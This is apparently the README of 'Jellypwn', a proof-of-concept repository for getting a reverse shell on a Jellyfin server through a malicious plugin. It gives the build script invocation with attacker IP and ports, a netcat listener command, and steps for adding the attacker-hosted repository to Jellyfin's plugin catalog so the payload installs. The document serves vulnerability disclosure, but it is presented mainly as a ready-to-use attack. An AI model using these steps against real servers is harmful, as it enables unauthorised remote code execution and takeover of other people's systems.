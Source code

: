 # Jellypwn

Get a reverse-shell on jellyfin using plugins

<https://github.com/jellyfin/jellyfin-web/issues/4653>

**TDLR;** Jellyfin allows you (admin user) to upload plugins to the server, these plugins are just .zip files with a dll file inside it. You can upload a plugin that executes a reverse-shell on the server.

## PoC video

<!--![website2](https://github.com/ScribblerCoder/Jellypwn/assets/35840617/155316da-464b-4d46-873b-a167b54d166b)-->
<p align="center">
<img src="https://github.com/ScribblerCoder/Jellypwn/assets/35840617/155316da-464b-4d46-873b-a167b54d166b" width="800">
</p>
<br/>

## How to use

This repo builds the plugin and hosts it on a webserver, using microsoft's dotnet SDK docker image. You can build the plugin yourself if you have dotnet (don't forget to replace your own IP and listener Port).

```console
bash build.sh [-p LISTENPORT] [-l WEBPORT] [-i IP]
```

Then run a netcat listener on the port you specified

```console
nc -lvnp LISTENPORT
```

To install your plugin on jellyfin you need to add a reposiory to the plugin catalog, you can do this by going to the plugin catalog and clicking on the "Repositories" Tab. Then click on "+" button, add the url of the webserver where you are hosting the plugin. Then your plugin should appear in the catalog for installation.
